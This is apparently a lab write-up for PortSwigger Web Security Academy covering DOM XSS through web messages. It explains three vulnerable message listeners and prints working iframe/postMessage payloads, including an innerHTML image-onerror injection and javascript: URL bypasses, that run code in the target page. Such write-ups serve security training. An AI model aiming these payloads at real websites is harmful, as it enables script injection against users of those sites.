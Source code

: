 # DOM-based vulnerabilities

- https://portswigger.net/web-security/dom-based

## DOM XSS using web messages

No `X-Frame-Options` header that would prevent loading this page in the `iframe` and additionally event listener preset for `message` event without origin verification that passes the input without sanitization to the `innerHtml` function.

Event listener for `message` event is our source, and `innerHtml` function is the sink.

Deliver below payload to the victim to solve the lab. It will load the victim page as an iframe and on load will post a message to all origins, causing vulnerable `message` event listener trigger.

```
<iframe src="https://0aa600ac04c124c89e1a8aa5009800fc.web-security-academy.net/" style="width: 100%; height: 100%;" frameBorder="0" onload='this.contentWindow.postMessage("<img src=X onerror=\"print()\"/>", "*")'></iframe>
```

## DOM XSS using web messages and a JavaScript URL

Same story as before, but this time `message` event listener tries to check whether provided data is the link and update `location.href` by it.

Unfortunately the code shown below does not check whether the provided data starts with `http:` or `https:`, but only if the data contains one of those strings, so it could be bypassed by providing input `javascript:print();//https:`, which when set to `location.href` executes code and calls `print()`

```
window.addEventListener('message', function(e) {
    var url = e.data;
    if (url.indexOf('http:') > -1 || url.indexOf('https:') > -1) {
        location.href = url;
    }
}, false);
```

To solve the lab we can deliver `iframe` containing vulnerable page, which onload posts a message which bypasses the `http` schema check and change `location.href` to `javascript:print()` code which calls the `print()` function.  

```
<iframe src="https://0a7200ce03bc3ad48289581c002500f5.web-security-academy.net/" style="width: 100%; height: 100%;" frameBorder="0" onload='this.contentWindow.postMessage("javascript:print();//https:", "*")'></iframe>
```

## DOM XSS using web messages and JSON.parse

Again no origin check and no `X-Frame-Options` type headers.

This time input is provided via json and `JSON.parse` function is called.
On message receival the page would create an `iframe` and depending on `type` key provided it will take different actions. When `type` is set to `load-channel` it sets `url` json value as iframe `src` without any sanitization.

To prove what can be done with it I have created an `iframe` with target website and executed the below command, which proved that when `iframe.src` is set to `javascript:` schema it will execute code. To make sure the code will not be executed in my website context, but in target website context `alert(document.domain)` is called, which proves we execute code in target page context.

```
document.querySelector("iframe").contentWindow.postMessage('{"type":"load-channel","url":"javascript:alert(document.domain)"}', '*')
```

In order to solve the lab we need to make the victim access below page containing vulnerable website in an `iframe` and making apriopriate `postMessage` call causing js execution.

```
<iframe src="https://0a7700ea031731ad82d2bfc000f8002b.web-security-academy.net/" onload='this.contentWindow.postMessage("{\"type\":\"load-channel\",\"url\":\"javascript:print()\"}", "*")'></iframe>
```
